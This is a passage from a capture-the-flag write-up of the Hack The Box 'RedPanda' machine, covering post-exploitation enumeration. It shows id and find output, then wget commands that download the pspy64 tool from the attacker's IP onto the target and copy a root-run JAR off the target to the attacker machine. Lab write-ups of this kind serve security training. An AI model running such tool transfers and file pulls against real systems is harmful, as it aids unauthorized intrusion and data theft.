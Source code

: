 
Apparently, Nothing i have got from **linpeas.sh**.

### id

So, by looking at the result of  the **id** command, We can see that we are belonging to a group called **logs**!

```bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```

Which is very interesting because we dont know what is this group and maybe it is our way to get the **root** privilage.

So, Let's find everything under the permission of that group:

```bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ find / -group logs 2>/dev/null
/opt/panda_search/redpanda.log
```

Let's run **pspy64** and see what processes are running in the background.


```bash
woodenk@redpanda:/tmp$ wget 10.10.16.34:9000/pspy64
--2022-11-16 14:23:41--  http://10.10.X.X:9000/pspy64
Connecting to 10.10.16.34:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4468984 (4.3M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   4.26M   268KB/s    in 16s     

2022-11-16 14:23:57 (275 KB/s) - ‘pspy64’ saved [4468984/4468984]
woodenk@redpanda:/tmp/hsperfdata_woodenk$ chmod +x pspy64 
woodenk@redpanda:/tmp/hsperfdata_woodenk$ ./pspy64
---------------------------------------------------------------------
2022/11/16 14:26:01 CMD: UID=0    PID=7093   | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
---------------------------------------------------------------------
```

There is a **JAR** file being executed as **root (UID=0)**, Which i have to investigate about and see what is does.

Let's transfer it to our attacker machine and see how does it work?

```bash
$ wget http://redpanda.htb:9000/final-1.0-jar-with-dependencies.jar                      
--2022-11-16 09:33:00--  http://redpanda.htb:9000/final-1.0-jar-with-dependencies.jar
Resolving redpanda.htb (redpanda.htb)... 10.10.11.170
Connecting to redpanda.htb (redpanda.htb)|10.10.11.170|:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1280956 (1.2M) [application/java-archive]
Saving to: ‘final-1.0-jar-with-dependencies.jar’

final-1.0-jar-with-dependenci 100%[===============================================>]   1.22M   714KB/s    in 1.8s    

2022-11-16 09:33:02 (714 KB/s) - ‘final-1.0-jar-with-dependencies.jar’ saved [1280956/1280956]
```
